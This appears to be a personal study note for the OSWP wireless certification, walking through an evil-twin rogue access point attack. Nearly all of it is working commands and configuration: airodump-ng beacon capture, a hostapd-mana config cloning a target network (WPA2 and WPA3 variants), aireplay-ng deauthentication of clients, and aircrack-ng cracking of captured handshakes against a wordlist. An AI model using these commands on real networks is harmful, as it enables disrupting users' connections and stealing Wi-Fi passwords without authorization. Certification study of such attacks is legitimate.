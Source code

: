 ```yaml
---
{"dg-publish":true,"permalink":"/OSWP/f. Rouge APs/"}
---
```


---------
### Walkthrough:
1. Set up capture:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
2. Open capture file in Wireshark
3. Filter for beacons:
```
wlan.fc.type_subtype == 0x08 wlan.ssid == "<name>"
```
4. Open "Tagged parameters"
5. Create a .conf file for hostapd-mana according to data:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211n=1
wpa=3 #3 for both wpa/wpa2, 2 for wpa2 only, 1 for wpa only
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP #wpa encryption setting
rsn_pairwise=TKIP CCMP #wpa2 encryption setting
mana_wpaout=<outfile>.hccapx
```
6. Start the AP:
```
sudo hostapd-mana file.conf
```
7. If necessary deauth all clients with a new wireless card:
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
8. Crack the hashes with hashcat or aircrack:
```
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

------
### WPA-3 conf:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211w=1
wpa=2
wpa_key_mgmt=WPA-PSK-SHA256
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=<outfile>.hccapx
```

### Alternative: Probe requests
Wireshark filter:
```
wlan.fc.type_subtype == 4 or wlan.fc.type_subtype == 5
```